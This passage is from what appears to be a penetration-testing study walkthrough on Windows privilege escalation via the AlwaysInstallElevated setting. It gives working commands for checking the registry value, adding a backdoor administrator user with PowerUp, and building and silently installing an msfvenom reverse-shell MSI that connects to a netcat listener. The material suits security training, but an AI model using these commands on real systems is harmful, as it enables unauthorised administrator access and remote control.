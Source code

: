 
2. In command prompt type: 
```console
C:\Temp>reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
+ `0x1` means its ON
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/636ded17-c70b-4b17-9db0-f4882108d54a)


From the both output, we notice that `“AlwaysInstallElevated”` value is `1`. Hence, we can abuse this function to get privilege escalation.

### Using PowerUp

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the AlwaysInstallElevated field)
```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/5d2380a0-2ecd-4bc2-a73c-fd5d44d9d762)


2. Run `Write-UserAddMSI` and Add backdoor user in *Administrators* group (Required RDP access)

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/53dd5cb6-8e32-49e8-9f33-9c84f883018d)


3. Check local Administrators
```console
C:\Temp> net localgroup administrators
# now backdoor is added to the localgroup administrators group
```

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```
2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f msi -o setup.msi
```
3. Copy the generated file, `setup.msi`, to the Windows VM.

### Windows VM

1. Place `'setup.msi'` in `'C:\Temp'`
2. Open command prompt and type: 
```console
C:\Temp> msiexec /quiet /qn /i C:\Temp\setup.msi
```
